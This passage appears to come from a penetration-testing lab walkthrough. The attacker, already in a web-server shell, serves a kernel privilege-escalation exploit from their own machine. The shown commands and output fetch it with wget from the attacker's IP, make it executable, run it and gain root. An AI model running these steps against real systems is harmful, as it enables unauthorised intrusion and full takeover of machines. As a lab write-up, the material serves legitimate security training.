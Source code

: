 Once again, we will start a Python HTTP server to download the privilege escalation exploit to the target machine:

```
kali@kali:~$ python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...

```

Next, we'll navigate to the _/tmp_ directory on the target and download our exploit.

```
<p-extensions/tiny_mce/plugins/ajaxfilemanager/inc$ cd /tmp
cd /tmp
www-data@offsecsrv:/tmp$ wget http://192.168.118.3:8000/15285
wget http://192.168.118.3:8000/15285
--2020-03-24 13:03:14--  http://192.168.118.3:8000/15285
Connecting to 192.168.118.3:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7155 (7.0K) [text/plain]
Saving to: `15285'

100%[======================================>] 7,155       --.-K/s   in 0.03s   

2020-03-24 13:03:14 (439 KB/s) - `15285' saved [16740/16740]

www-data@offsecsrv:/tmp$
```

We'll give the exploit executable permissions and run it to obtain root-level privileges on the target system.

```
www-data@offsecsrv:/tmp$ chmod +x /tmp/15285
chmod +x /tmp/15285
www-data@offsecsrv:/tmp$ whoami
whoami
www-data
www-data@offsecsrv:/tmp$ ./15285
./15285
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc08c8c2c
 [+] Resolved default_security_ops to 0xc0773300
 [+] Resolved cap_ptrace_traceme to 0xc02f3dc0
 [+] Resolved commit_creds to 0xc016dcc0
 [+] Resolved prepare_kernel_cred to 0xc016e000
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
# whoami
whoami
root
```